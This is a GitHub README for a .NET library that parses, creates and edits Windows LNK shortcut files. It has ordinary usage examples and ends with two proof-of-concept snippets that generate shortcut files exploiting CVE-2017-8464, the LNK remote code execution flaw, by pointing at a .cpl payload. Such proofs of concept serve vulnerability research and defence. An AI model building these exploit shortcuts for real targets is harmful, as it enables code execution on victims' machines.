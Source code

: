 # ShellLink
A .NET Class Library for processing ShellLink (LNK) files as documented in [MS-SHLLINK](https://msdn.microsoft.com/en-us/library/dd871305.aspx). It allows for reading, creating and modifying ShellLink (LNK) files.

Note this Class Library depends on the [PropertyStore](https://github.com/securifybv/PropertyStore) Class Library.

## Examples

### Dump
```
Console.WriteLine(
	Shortcut.ReadFromFile(@"C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Accessories\Paint.lnk")
);
```

#### Sample Output
```
Shortcut:
HeaderSize: 76 (0x4C)
LinkCLSID: 00021401-0000-0000-c000-000000000046
LinkFlags: HasName, HasIconLocation, IsUnicode, ForceNoLinkInfo, HasExpString, EnableTargetMetadata, PreferEnvironmentPath
FileAttributes: 0
CreationTime: 1/1/1601 12:00:00 AM
AccessTime: 1/1/1601 12:00:00 AM
WriteTime: 1/1/1601 12:00:00 AM
FileSize: 0 (0x0)
IconIndex: 0
ShowCommand: SW_SHOWNORMAL
HotKey: 0
StringData:
NameString: @%SystemRoot%\system32\shell32.dll,-22566
IconLocation: %windir%\system32\mspaint.exe
ExtraData:
EnvironmentVariableDataBlock:
BlockSize: 788 (0x314)
BlockSignature: 0xA0000001
TargetAnsi: %windir%\system32\mspaint.exe
TargetUnicode: %windir%\system32\mspaint.exe
PropertyStoreDataBlock:
BlockSize: 102 (0x66)
BlockSignature: 0xA0000009
SerializedPropertyStorage:
StorageSize: 45 (0x2D)
Version: 0x53505331
FormatID: 46588ae2-4cbc-4338-bbfc-139326986dce
IntegerName:
ValueSize: 17 (0x11)
ID: 0x0
TypedPropertyValue:
Type: VT_UI4
Value: 0
SerializedPropertyStorage:
StorageSize: 45 (0x2D)
Version: 0x53505331
FormatID: 9f4c2855-9f79-4b39-a8d0-e1d42de1d5f3
IntegerName:
ValueSize: 17 (0x11)
ID: 0x12
TypedPropertyValue:
Type: VT_UI4
Value: 1
```

### Create
```
Shortcut.CreateShortcut(@"%SystemRoot%\System32\calc.exe")
	.WriteToFile(@"calc.lnk");
```

```
Shortcut.CreateShortcut(@"%SystemRoot%\System32\cmd.exe", 
	"/c calc.exe", 
	@"%SystemRoot%\System32\calc.exe", 0)
		.WriteToFile(@"calc2.lnk");
```

```
new Shortcut()
{
	LinkTargetIDList = new LinkTargetIDList()
	{
		Path = @"C:\Windows\System32\calc.exe"
	}
}.WriteToFile(@"calc3.lnk");
```

### Modify
```
Shortcut PowerShellLnk = Shortcut.ReadFromFile(
	Environment.ExpandEnvironmentVariables(@"%APPDATA%\Microsoft\Windows\Start Menu\Programs\Windows PowerShell\Windows PowerShell.lnk")
);
// change the background color
PowerShellLnk.ExtraData.ConsoleDataBlock.FillAttributes &= ~FillAttributes.BACKGROUND_BLUE;
PowerShellLnk.WriteToFile(@"PowerShell.lnk");
```

### CVE-2017-8464 | LNK Remote Code Execution Vulnerability

#### SpecialFolderDataBlock
```
Shortcut poc = new Shortcut()
{
	IconIndex = 0,
	LinkFlags = LinkFlags.IsUnicode,
	LinkTargetIDList = new CplLinkTargetIDList(@"E:\target.cpl"),
};
int Index = poc.LinkTargetIDList.ItemIDList.Count - 1;
poc.ExtraData.SpecialFolderDataBlock = new SpecialFolderDataBlock()
{
	SpecialFolderID = CSIDL.CSIDL_CONTROLS,
	Offset = poc.LinkTargetIDList.GetOffsetByIndex(Index)
};
poc.WriteToFile(@"CVE-2017-8464.lnk");
```

#### KnownFolderDataBlock
```
Shortcut poc2 = new Shortcut()
{
	IconIndex = 0,
	LinkFlags = LinkFlags.IsUnicode,
	LinkTargetIDList = new CplLinkTargetIDList(@"E:\target.cpl")
};
int Index = poc2.LinkTargetIDList.ItemIDList.Count - 1;
poc2.ExtraData.KnownFolderDataBlock = new KnownFolderDataBlock()
{
	KnownFolderID = KNOWNFOLDERID.FOLDERID_ControlPanelFolder,
	Offset = poc2.LinkTargetIDList.GetOffsetByIndex(Index)
};
poc2.WriteToFile(@"CVE-2017-8464-2.lnk");
```
